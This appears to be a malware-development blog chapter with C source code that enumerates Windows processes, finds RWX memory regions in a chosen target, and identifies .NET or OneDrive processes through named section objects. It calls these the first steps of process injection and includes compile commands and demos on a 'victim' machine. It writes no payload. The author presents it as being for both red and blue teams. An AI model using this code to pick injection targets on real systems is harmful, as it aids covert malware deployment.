




\newpage
\subsection{49. malware development trick. Hunting RWX - part 2. Target process investigation tricks. Simple C/C++ example.}

﷽

{width="80%"}      

In one of my [previous posts](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html), I described a process injection method using RWX-memory searching logic. Today, I will apply the same logic, but with a new trick.    

As you remember, the method is simple: we enumerate the presently running target processes on the victim's system, scan through their allocated memory blocks to see if any are protected with RWX, and then write our payload to this memory block.    

### practical example

Today I will use a little bit different trick. Let's say we are search specific process in the victim's machine (for injection or for something else).     

Let's go to use a separate function for hunting RWX-memory region from the victim process, something like this:    

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
      mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}
```

Also a little bit update for our main logic: first of all, we are search specific process' handle by it's name:    

```cpp
typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}
```

As you can see, we [use](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html) `NtGetNextProcess` API for enumerating processes.    

So the final source code is looks like this (`hack.c`):    

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}


int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
      mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our malware source code:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-w -lpsapi -lshlwapi
```

{width="80%"}      

And run it at the victim’s machine (`Windows 11 x64` in my case):    

{width="80%"}      

Try on another target process, for example `OneDrive.exe`:    

{width="80%"}      

Our logic is worked, RWX-memory successfully founded!    

As you can see, everything is worked perfectly! =^..^=    

### practical example 2

But there are the caveats. Sometimes we need to know is this process is `.NET` process or Java or something else (is it really `OneDrive.exe` process)?    

For `.NET` process we need interesting trick, if we open `powershell.exe` via Process Hacker 2:    

{width="80%"}      

As you can see, in the `Handles` tab we can find interesting section with name `\BaseNamedObjects\Cor_Private_IPCBlock_v4_<PID>"` in our case PID = `3156`, so our string is equal `\BaseNamedObjects\\Cor_Private_IPCBlock_v4_3156`.    

So, let's update our function `findMyProc`, like this:    

```cpp
HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // Check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}
```

Just convert process id int to UNICODE STRING and concat, then try to find section logic.     

Here, `NtOpenSection` API use for opens a handle for an existing section object:    

```cpp
typedef NTSTATUS (NTAPI * fNtOpenSection)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);
```

So, the full source code for this logic (finding `.NET` processes in the victim's system) looks like this:    

```cpp
/*
 * hack2.c - hunting RWX memory
 * detect .NET process
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = (fNtGetNextProcess_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = (fNtOpenSection_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}


int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

### demo 2

Let's go to see second example in action. Compile it:    

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}      

Then just run it. Check on `powershell.exe`:    

```powershell
.\hack2.exe powershell.exe
```

{width="80%"}      

Now, second practical example worked as expected! Great! =^..^=    

### practical example 3

Ok, so what about previous question?    

How we can check if the victim process is really `OneDrive.exe` process? It's just in case, for example.    

Let's check `OneDrive.exe` process properties via Process Hacker 2:    

{width="80%"}      

As you can see we can use the same trick: check section by it's name: `\Sessions\1\BaseNamedObjects\UrlZonesSM_test1`. Of course, I could be wrong and the presence of this string does not guarantee that this is `OneDrive.exe` process. I just want to show that you can examine any process and try to find some indicators in the section names.    

So, I updated my function again and full source code of my third example (`hack3.c`):    

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char *procname) {
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      // check for "\Sessions\1\BaseNamedObjects\UrlZonesSM_test1" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;

      WCHAR objPath[] = L"\\Sessions\\1\\BaseNamedObjects\\UrlZonesSM_test1";
      sName.Buffer = (PWSTR)objPath;
      sName.Length = wcslen(objPath) * sizeof(WCHAR);
      sName.MaximumLength = sName.Length + sizeof(WCHAR);

      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }
  return current;
}

int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

As you can see, the logic is simple: check section name and try to open it.     

### demo 3

Let's go to see third example in action. Compile it:    

```bash
x86_64-w64-mingw32-g++ hack3.c -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}      

Then, run it on the victim's machine:    

```powershell
.\hack3.exe OneDrive.exe
```

{width="80%"}      

As you can see, everything is worked perfectly again!    

If anyone has seen a similar trick in real malware and APT, please write to me, maybe I didn't look well, it seems to me that this is a technique already known to attackers.    

I hope this post spreads awareness to the blue teamers of this interesting process investigation technique, and adds a weapon to the red teamers arsenal.     

[Process injection via RWX-memory hunting. Simple C++ example.](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html)      
[Malware development trick - part 30: Find PID via NtGetNextProcess. Simple C++ example.](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-04-09-malware-cryptography-26)    
